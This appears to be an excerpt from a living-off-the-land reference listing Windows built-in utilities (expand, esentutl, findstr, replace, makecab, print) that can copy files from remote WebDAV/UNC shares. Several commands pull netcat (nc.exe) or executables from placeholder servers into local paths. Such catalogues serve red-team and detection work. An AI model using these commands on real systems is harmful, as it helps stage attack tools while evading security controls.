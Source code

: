 ### Expand.exe

**Description:** Built-in utility for extracting compressed files.

**Download and Extract:**
```cmd
# Download cabinet file
expand.exe \\webdav\folder\file.cab c:\ADS\file.cab

# Extract cabinet file
expand.exe -F:* c:\ADS\file.cab c:\ADS\
```

### Esentutl.exe

**Description:** Extensible Storage Engine (ESE) database utility.

**Download File:**
```cmd
esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
```

### Findstr.exe

**Description:** String search utility that can read files.

**Read Remote Files:**
```cmd
findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.exe
```

### Replace.exe

**Description:** File replacement utility.

**Download File:**
```cmd
replace.exe \\webdav.folder.com\folder\invoice.pdf c:\ADS\ /A
```

### Makecab.exe

**Description:** Cabinet file creation utility.

**Upload File (via UNC):**
```cmd
makecab \\webdavserver\webdav\nc.exe \\webdavserver\webdav\nc.cab
```

### Print.exe

**Description:** Print command that can download files.

**Download File:**
```cmd
print /D:\\webdavserver\share\nc.exe \\webdavserver\share\nc.exe
```
